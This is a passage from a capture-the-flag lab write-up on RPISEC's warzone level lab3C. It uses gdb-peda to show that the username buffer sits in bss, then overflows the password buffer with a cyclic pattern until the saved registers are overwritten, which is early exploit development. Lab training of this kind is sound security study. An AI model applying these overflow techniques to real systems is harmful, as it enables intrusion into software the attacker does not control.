 ```nasm
lab3C@warzone:/levels/lab03$ gdb -q lab3C 
Reading symbols from lab3C...(no debugging symbols found)...done.
gdb-peda$ break verify_user_name 
Breakpoint 1 at 0x8048743
gdb-peda$ run
Starting program: /levels/lab03/lab3C 
********* ADMIN LOGIN PROMPT *********
Enter Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048743 in verify_user_name ()

// Then, we check the content of bss...
gdb-peda$ x/30x 0x08049c20
0x8049c20 <stdin@@GLIBC_2.0>:	0xb7fcdc20	0x00000000	0x00000000	0x00000000
0x8049c30:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049c40 <a_user_name>:	0x41414141	0x41414141	0x41414141	0x41414141
0x8049c50 <a_user_name+16>:	0x41414141	0x41414141	0x41414141	0x41414141
0x8049c60 <a_user_name+32>:	0x41414141	0x41414141	0x41414141	0x41414141
0x8049c70 <a_user_name+48>:	0x41414141	0x41414141	0x0a414141	0x00000000
0x8049c80 <a_user_name+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049c90 <a_user_name+80>:	0x00000000	0x00000000
gdb-peda$ 
```

See, that's why even if we overflow the username variable, it won't help us to overwrite the return address as the content will not be placed on the stack.

So, as we know the right username (*rpisec*), we can overflow the **a_user_pass** variable. Let's do that in memory.

## Dynamic Analysis

Now, it should be easy to overwrite a return address. Again, we can use the *pattern* feature of PEDA to find out at which offsec we will overwrite the return address.

```nasm
lab3C@warzone:/levels/lab03$ gdb lab3C 

gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

gdb-peda$ run
Starting program: /levels/lab03/lab3C 
********* ADMIN LOGIN PROMPT *********
Enter Username: rpisec  
verifying username....

Enter Password: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x41413341 ('A3AA')
ECX: 0xb7fd8000 ("\nope, incorrect password...\n *********\n")
EDX: 0xb7fce898 --> 0x0 
ESI: 0x0 
EDI: 0x65414149 ('IAAe')
EBP: 0x41344141 ('AA4A')
ESP: 0xbffff700 ("fAA5AAKAAgAA6AA")
```